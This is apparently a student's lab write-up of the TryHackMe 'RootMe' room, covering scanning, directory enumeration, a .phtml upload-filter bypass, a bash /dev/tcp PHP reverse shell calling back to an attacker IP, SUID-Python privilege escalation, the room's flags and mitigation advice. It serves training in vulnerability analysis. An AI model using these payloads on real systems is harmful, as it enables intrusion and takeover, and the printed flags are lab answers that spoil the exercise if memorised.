







# Lab 5: TryHackMe Walkthrough — RootMe

**Name:** Muhammad Hayat Bin Abdullah
**Class:** L01-B03 / 52215226009
**Course:** IKB21403 Vulnerability Analysis
**Date:** 23 November 2026

> **Scope & ethics:** All testing was performed against an authorized TryHackMe training
> machine (RootMe), accessed through the official TryHackMe VPN, for educational purposes
> only. No real or unauthorized systems were targeted.

---

## 1. Target

| Item | Detail |
|---|---|
| Platform | TryHackMe |
| Room | RootMe — https://tryhackme.com/room/rrootme |
| Target (victim) IP | `10.49.144.34` |
| Attacker machine | Kali Linux (VirtualBox VM) |
| Attacker VPN IP (tun0) | `192.168.188.221` |
| Connection | OpenVPN to TryHackMe |



---

## 2. Methodology

Standard penetration-testing methodology was followed:

1. **Reconnaissance / Scanning** — identify open ports and services (nmap).
2. **Enumeration** — discover hidden web directories (gobuster).
3. **Gaining Access** — bypass the upload filter and gain a reverse shell.
4. **User flag** — read `user.txt`.
5. **Privilege Escalation** — abuse a SUID binary to become root.
6. **Root flag** — read `root.txt`.

---

## 3. Steps by Step

### Step 1 — Reconnaissance (nmap)

```bash
nmap -sC -sV -Pn 10.49.144.34
```

**Result — two open ports:**

| Port | Service | Version |
|---|---|---|
| 22/tcp | SSH | OpenSSH 8.2p1 Ubuntu |
| 80/tcp | HTTP | Apache httpd 2.4.41 (Ubuntu) — page title "HackIT - Home" |



### Step 2 — Enumeration (gobuster)

```bash
gobuster dir -u http://10.49.144.34 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```

**Result — key directories found:**
- `/index.php` (200)
- `/uploads` (301)
- `/panel` (301) ← **file upload page**
- `/css`, `/js` (301)



### Step 3 — Gaining Access (file-upload bypass → reverse shell)

The `/panel/` page allows file uploads. The `.php` extension is blocked, but **`.phtml`** is
allowed (the server still executes it as PHP). A PHP reverse-shell payload was written to a
`.phtml` file pointing back to the attacker:

```bash
echo '<?php exec("bash -c \"bash -i >& /dev/tcp/192.168.188.221/4444 0>&1\""); ?>' > shell2.phtml
```



The file was uploaded via `http://10.49.144.34/panel/` (upload succeeded):



A listener was started on the attacker machine, and the uploaded file was triggered:

```bash
# Attacker:
nc -lvnp 4444
# Browser:
http://10.49.144.34/uploads/shell2.phtml
```

A reverse shell was received as the **www-data** user.

### Step 4 — User flag

```bash
whoami                         # www-data
find / -name user.txt 2>/dev/null
cat /var/www/user.txt
```

**User flag:** `THM{y0u_g0t_a_sh3ll}`



### Step 5 — Privilege Escalation (SUID Python)

Searching for SUID binaries revealed that **Python** was SUID-root:

```bash
find / -perm -4000 -type f 2>/dev/null
```

This was abused (per GTFOBins) to spawn a root shell:

```bash
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami                         # root
```

### Step 6 — Root flag

```bash
find / -name root.txt 2>/dev/null
cat /root/root.txt
```

**Root flag:** `THM{pr1v1l3g3_3sc4l4t10n}`



---

## 4. Flags

| Flag | Value |
|---|---|
| User | `THM{y0u_g0t_a_sh3ll}` |
| Root | `THM{pr1v1l3g3_3sc4l4t10n}` |

---

## 5. Mitigation (recommendations)

- **File upload:** validate file type by content, not extension; block executable
  extensions including `.phtml`, `.php5`, `.phar`; store uploads outside the web root.
- **SUID Python:** never set the SUID bit on interpreters like Python; audit SUID binaries
  regularly and remove unnecessary ones.
- **Defence in depth:** keep software patched, apply least privilege, and monitor for
  reverse-shell / unusual outbound connections.

## 6. Conclusion

The RootMe machine was fully compromised from an unauthenticated position to **root** by
chaining a web file-upload bypass (reverse shell as www-data) with a SUID-Python privilege
escalation. Both the user and root flags were captured. All actions were performed ethically
against an authorized TryHackMe lab target.
